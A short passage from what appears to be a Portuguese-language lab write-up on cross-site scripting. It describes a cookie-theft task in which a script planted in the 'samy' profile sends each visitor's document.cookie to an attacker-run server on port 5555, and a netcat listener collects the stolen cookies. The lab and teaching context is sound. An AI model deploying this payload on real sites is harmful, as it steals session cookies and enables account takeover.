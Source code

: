 ![Cross-Site-Scripting-Attack-Images/print5.png](Cross-Site-Scripting-Attack-Images/print5.png)

### Tarefa 3 – Pegar os cookies da máquina da vítima

O objetivo agora é “roubar” os cookies do usuário. Para isso, ao acessar o perfil malicioso deve ser feita uma requisição HTTP do tipo GET para o servidor do atacante, passando como parâmetro de rota os cookies do usuário. Portanto, no perfil samy foi inserido o seguinte script:

```html
<script>document.write('<img src=http://127.0.0.1:5555?c='
+escape(document.cookie) + ' >');
</script>
```

A partir disto iniciamos um servidor TCP  na porta 5555 com o programa **netcat** a partir da seguinte linha de comando: `nc -l 5555 -v`. A partir daí, quando uma vitima entra no perfil de Samy, a requisição é gerada e seus cookies são enviados para a máquina do atacante como mostra a imagem a seguir:
